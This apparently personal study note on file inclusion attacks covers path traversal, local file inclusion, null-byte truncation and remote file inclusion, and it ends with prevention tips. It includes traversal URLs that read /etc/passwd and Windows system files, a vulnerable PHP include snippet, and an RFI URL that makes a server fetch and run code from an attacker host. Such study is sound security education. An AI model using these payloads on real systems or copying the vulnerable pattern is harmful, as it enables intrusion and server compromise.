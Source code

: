 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/pentesting/file-inclusion/file-inclusion/"}
---
```







## ==Path Traversal==

- AKA, Directory Traversal a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application.
- Path traversal vulnerabilities occur when the user's input is passed to a function such **==as file_get_contents in PHP.==**
- Path traversal attacks, also known as the dot-dot-slash attack, take advantage of moving the ==**directory one step up using the double dots ../.**==
- If the attacker finds the entry point, which in this case get.php?file=, then the attacker may send something as follows, [http://webapp.thm/get.php?file=../../../../etc/passwd](http://webapp.thm/get.php?file=../../../../etc/passwd)
- Each .. entry moves one directory until it reaches the root directory /. Then it changes the directory to **==/etc, and from there, it read the passwd file.==**

![Untitled 2.png|Untitled 2.png](/img/user/img/Untitled%202.png)

  

- For Windows directories :

[http://webapp.thm/get.php?file=../../../../boot.ini](http://webapp.thm/get.php?file=../../../../boot.ini) or

[http://webapp.thm/get.php?file=../../../../windows/win.ini](http://webapp.thm/get.php?file=../../../../windows/win.ini)

  

![Screenshot_2023-10-03_at_11.01.29_PM.png](/img/user/img/Screenshot_2023-10-03_at_11.01.29_PM.png)

## ==Local File Inclusion (LFI)==

- With PHP, using functions such as include, require, include_once, and require_once often contribute to vulnerable web applications.

```PHP
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

- In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.
    - If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other ==**OS-sensitive files such as /etc/passwd.**==
    - The following will be the exploit :
    - http://webapp.thm/index.php?lang=../../../../etc/passwd

### ==Null Bytes==

- We can use the NULL BYTE, which is %00.
- By adding the Null Byte at the end of the payload, we tell the include function to ignore anything after the null byte which may look like :
    - include("languages/../../../../../etc/passwd%00").".php"); which equivalent to → include("languages/../../../../../etc/passwd");
- Deprecated after PHP 5.3.4.

![Untitled 1.png](/img/user/img/Untitled%201.png)

## ==Remote File Inclusion (RFI)==

- A technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly ==**sanitizing user input, allowing an attacker to inject an external URL into include function.**==
    - One requirement for RFI is that the allow_url_fopen option needs to be on.

1. First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt.
2. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file.
3. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.

## ==Prevention==

1. Keep system and services, including web application frameworks, ==**updated with the latest version.**==
2. **==Turn off PHP errors to avoid leaking the path==** of the application and other potentially revealing information.
3. A **==Web Application Firewall (WAF)==** is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them**==, such as allow_url_fopen on and allow_url_include.==**
5. Carefully analyze the web application and **==allow only protocols and PHP wrappers that are in need.==**
6. **==Never trust user input,==** and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.
